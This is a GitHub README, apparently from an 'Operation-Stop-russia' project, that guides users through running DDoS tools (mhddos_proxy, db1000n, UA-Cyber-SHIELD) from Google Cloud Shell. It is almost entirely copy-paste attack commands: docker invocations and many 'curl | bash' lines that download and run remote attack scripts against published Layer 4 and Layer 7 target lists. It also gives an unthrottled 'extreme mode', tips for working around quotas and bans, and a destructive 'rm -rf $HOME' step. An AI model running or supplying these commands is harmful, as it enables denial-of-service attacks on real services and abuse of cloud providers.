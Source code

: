 ## [DDoS whith Google Cloud Shell](https://sites.google.com/view/operationrussia/googleshell)
#### Scripts for durable cloudshell session. Test!
#
### Use https://shell.cloud.google.com/?fromcloudshell=true&show=terminal
### from PC and smartphones (*all devices with browser*;)
#
#### Browser mode (*suitable for use 1 to 20-30 accounts from one PC, if more - [here](https://github.com/Operation-Stop-russia/Gcloudshell_ddos/tree/main/GShellSDK#readme)*)
:exclamation:• **It is recommended to use 1 terminal per account**.    
:exclamation:• **GShell sessions are capped at 12 hours. You can start a new session immediately after terminate**    
:exclamation:• Please note that **Weekly usage quotas, 1 account - 50 hours in normal mode and up to 50 hours in ephemeral mode** (*until the quota expires in the default mode - turn on the ephemeral mode (set - "Always") and get 10-50 hours of use during the current week*)    
:exclamation:• In [Google Cloud Shell](https://shell.cloud.google.com/?fromcloudshell=true&show=terminal) you can disable usage statistics in settings.    
• **To restore Cloud Shell** - remove all files from your home directory, command: `sudo rm -rf $HOME`, after - in the Cloud Shell menu, click the three dots menu icon, then click "Restart" *(A new VM will be provisioned and the home directory will be restored to its default state)*
#
### Stable sessions (*90%*)
:white_check_mark:**Command to install and run mhddos_proxy** (*Docker*):
```
sudo docker run -it --rm  --cpus="0.7" --pull always ghcr.io/porthole-ascend-cinnamon/mhddos_proxy:latest -c https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7.lst -t 3000 --vpn 1 --http-methods GET --rpc 500
```
:white_check_mark:**Command to install and run mhddos_proxy** (Bash):
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m.sh | bash
```
:white_check_mark:**Command to install and run db1000n** (*Docker*):
```
sudo docker run -it --rm  --cpus="0.5" --rm -it --pull always ghcr.io/arriven/db1000n
```
:white_check_mark: **Command to install and run db1000n** (Bash):
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/db1000n_GShell.sh | bash
``` 
:white_check_mark:**Command to install and run UA-Cyber-SHIELD** (*Docker*):
```
sudo docker run -it --rm  --cpus="0.5" ghcr.io/opengs/uashield:master --workers=256 --withProxy=true
```
:white_check_mark:**Command to install and run mhddos_proxy** *using only proxies*  (Bash):
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L7m-proxy_only.sh | bash
```
#
#
### Tests / elaborations / experiments. 
**Unstable sessions; are terminated** (need constantly checked)      
  
:grey_question:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/L4_tcp.sh | bash
```
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_L4.sh | bash    
```
:grey_question:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/ALL.sh | bash
```
:grey_question:***--itarmy*:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/itarmy.sh | bash
```
:grey_question:**Split terminal (Layer7+Layer4):**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/Start_dualShell.sh | bash
```    
#
### EXTREME MODE:zap:NoLimits (mhddos_proxy commands without parameters)
 :exclamation: **Attacks are powerful but short + high probability of getting banned** (*the ban is usually temporary and only applies to access to GShell*)    
  
:zap:***--itarmy*:**
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/itarmyX.sh | bash
```
:zap:**Layer4:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/tcpX.sh | bash
```
:zap:**All targets:**    
```
curl -L https://raw.githubusercontent.com/Operation-Stop-russia/Gcloudshell_ddos/main/X/ALLx.sh | bash
```
#
#
#### Target lists
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7.lst
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L7m.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/L4_tcp.lst    
https://raw.githubusercontent.com/Operation-Stop-russia/targets_lists/main/AllTargets.lst     
#
#
[IT ARMY of Ukraine](https://t.me/itarmyofukraine2022)
